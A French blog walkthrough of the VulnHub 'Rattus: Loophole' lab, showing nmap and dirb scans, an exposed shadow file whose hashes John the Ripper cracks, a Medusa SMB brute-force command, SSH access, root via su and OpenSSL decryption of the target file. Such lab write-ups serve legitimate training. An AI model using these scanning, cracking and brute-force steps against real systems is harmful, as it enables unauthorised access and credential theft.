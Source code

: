```yaml
---
title: "Solution du CTF Rattus: Loophole de VulnHub"
tags: [CTF, VulnHub]
---
```


Ce message s'autodétruira dans 5, 4, 3, 2, 1
--------------------------------------------

Le CTF [Loophole](http://vulnhub.com/entry/rattus_loophole,27/) propose de s'introduire sur un système sur fond de mission anti-terrorisme :  

> We suspect that someone inside Rattus labs is working with known terrorist group. Your mission is to infiltrate into their computer network and obtain encrypted document from one of their servers.
> Our inside source has told us that the document is saved under the name of Private.doc.enc and is encrypted using OpenSSL encryption utility. Obtain the document and decrypt it to complete the mission.

La première difficulté de ce challenge (les mauvaises langues diront la seule), c'est de parvenir à configurer la VM car l'ISO fournit n'utilise pas DHCP et a une adresse IP statique en 10.8.7.  

Finalement il faudra seulement aller dans *Fichier > Paramètres > Réseau* dans *VirtualBox* et créer un réseau privé hôte qui reprends ces infos (j'ai mis .4 et ça a marché mais dans la logique il faut sans mettre .0 si c'est pour le réseau) :  

![Congiguration VirtualBox](/assets/img/vboxnet0.png)

Après on peut lancer Nmap pour trouver l'adresse de notre future victime :  

```plain
nmap -e vboxnet0 -sP 10.8.7.0/29 -T4
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 09:34 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00017s latency).
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Nmap done: 8 IP addresses (1 host up) scanned in 16.75 seconds
```

On pointe directement notre navigateur dessus et on trouve le site web de *Rattus Labs* qui contient différents contacts :  

![Rattus Labs](/assets/img/rattus.png)

Nadia Vlad, CEO.  

Sr. system administrator : Tom Skies - tskies@rattus.lab  

Network engineer : Jay Summer- jsummer@rattus.lab  

Mark Hog - mhog@rattus.lab  

Il y a aussi une page *phpinfo* publiquement accessible. La configuration est plutôt laxiste, permet l'inclusion distante par exemple. Le serveur web tourne en nobody.  

Il y a un sacré nombre de modules PHP mais on verra plus tard que cette info n'est d'aucune utilité.  

On lance un *dirb* sur le serveur *Apache* (1.3.31 avec PHP/4.4.4) :  

```plain
> ./dirb http://10.8.7.2/ wordlists/big.txt 

-----------------
DIRB v2.21
By The Dark Raver
-----------------

START_TIME: Sat Apr  5 13:43:18 2014
URL_BASE: http://10.8.7.2/
WORDLIST_FILES: wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.8.7.2/ ----
==> DIRECTORY: http://10.8.7.2/Images/
+ http://10.8.7.2/cgi-bin/ (CODE:403|SIZE:274)
+ http://10.8.7.2/garbage (CODE:200|SIZE:288)
+ http://10.8.7.2/index (CODE:200|SIZE:3001)
+ http://10.8.7.2/info (CODE:200|SIZE:37650)
+ http://10.8.7.2/status (CODE:200|SIZE:2456)
+ http://10.8.7.2/~operator (CODE:403|SIZE:275)
+ http://10.8.7.2/~root (CODE:403|SIZE:271)

---- Entering directory: http://10.8.7.2/Images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
DOWNLOADED: 20458 - FOUND: 7
```

Surprise quand on regarde le fichier *garbage* :  

```plain
root:$1$x2YBL0KB$E7QI7AF9ZeiqcfMRQ4KZ11:15018:0:::::
smmsp:!!:9797:0:::::
mysql:!!:9797:0:::::
rpc:!!:9797:0:::::
sshd:!!:9797:0:::::
apache:!!:9797:0:::::
nobody:!!:9797:0:::::
mhog:$1$ZQAbXwf3$TgcNjljKW.2tlJw4OICDr1:15019:0:::::0
tskies:$1$ZvNtdn0x$ck5hnAwXg.OLQPOtg28Hb.:15019:0:::::0
```

On lance *John The Ripper* qui retourne illico un premier mot de passe :  

```plain
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
mhog             (mhog)
```

On laisse *JTR* tourner puis on passe à autre chose voir si on trouve autre chose d'intéressant. *Metasploit* a deux modules en rapport avec *mod\_negotiation* mais ils se révèlent sans intérêt dans notre cas.  

On lance un scan Nmap de la cible (quand même) :  

```plain
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 13:26 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00012s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.4 (protocol 1.99)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.31 ((Unix) PHP/4.4.4)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| http-methods: Potentially risky methods: PUT DELETE CONNECT PATCH PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Loophole - Rattus labs
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: LOOPHOLE, NetBIOS user: , NetBIOS MAC: 
| smb-security-mode: 
| Account that was used for smb scripts: guest
| User-level authentication
| Plaintext passwords required (dangerous)
|\_ Message signing supported
|\_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE
HOP RTT ADDRESS
1 0.12 ms 10.8.7.2
```

*Metasploit* dispose de plusieurs exploits Samba mais ils sont trop vieux ou inefficaces par rapport au système.  

Est-ce qu'on peut faire quelque chose avec l'accès au Samba ?  

```plain
> nmblookup -A 10.8.7.2
Looking up status of 10.8.7.2
        LOOPHOLE        <00> -         B 
 LOOPHOLE <03> - B 
 LOOPHOLE <20> - B 
 ..\_\_MSBROWSE\_\_. <01> -  B 
 WORKGROUP <1d> - B 
 WORKGROUP <1e> -  B 
 WORKGROUP <00> -  B 

 MAC Address = 00-00-00-00-00-00

> smbclient -L LOOPHOLE -N
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
tree connect failed: NT\_STATUS\_INSUFFICIENT\_RESOURCES

> smbclient -L LOOPHOLE -U mhog%mhog
Server requested PLAINTEXT password but 'client plaintext auth = no' or 'client ntlmv2 auth = yes'
session setup failed: NT\_STATUS\_ACCESS\_DENIED
```

On rajoute quelques lignes dans la section global de notre *smb.conf* :  

```plain
client lanman auth = Yes
client plaintext auth = Yes
client ntlmv2 auth = No
```

Le changement est pas vraiment mieux :  

```plain
> smbclient -L LOOPHOLE -U mhog%mhog
session setup failed: NT_STATUS_LOGON_FAILURE
```

*Medusa* a un module SMB, on tente d'obtenir un accès (par exemple sur le compte *operator* trouvé par *dirb*) :  

```plain
medusa -h 10.8.7.2 -u operator -P john/wordlists/password.lst -M smbnt
```

Toujours bredouille :( On revient à nos moutons et on tente une connexion en SSH avec le compte *mhog* : et bingo ça passe !  

![ssh access as mhog](/assets/img/rattus2.png)

Cliffhanger Linux
-----------------

Comme d'habitude on fouille dans les processus, permissions sur les fichiers et binaires, configuration des services... rien d'intéressant.  

On teste quelques exploits pour le kernel mais aucun n'aboutit. Au passage on est sur un live-CD *Slax* donc /tmp n'est pas writable (comme la plupart du FS). Ça oblige à travailler dans */dev/shm* et définir la variable d'environnement *TMPDIR* à ce répertoire pour gcc.  

On revient sur *JTR* que l'on stoppe et que l'on relance avec [une wordlist béton](http://d4n3ws.polux-hosting.com/2014/02/26/mega-wordlist/).  

Cette fois les pass restants tombent en 8 minutes :  

```plain
albatros         (root)
nostradamus      (tskies)
```

On passe root via su et on trouve le ficier *Private.doc.enc* dans le home de l'utilisateur *tskies*.  

On retrouve la commande de chiffrement dans son *.bash\_history* :  

```plain
openssl enc -aes-256-cbc -e -in Private.doc -out Private.doc.enc -pass pass:nostradamus
```

Le déchiffrement est aisé :  

```plain
openssl enc -aes-256-cbc -d -in Private.doc.enc -out Private.doc -pass pass:nostradamus
```

On ouvre ça avec *LibreOffice* :  

![Document confidentiel](/assets/img/rattus3.png)

Et un de plus !

*Published April 05 2014 at 17:23*
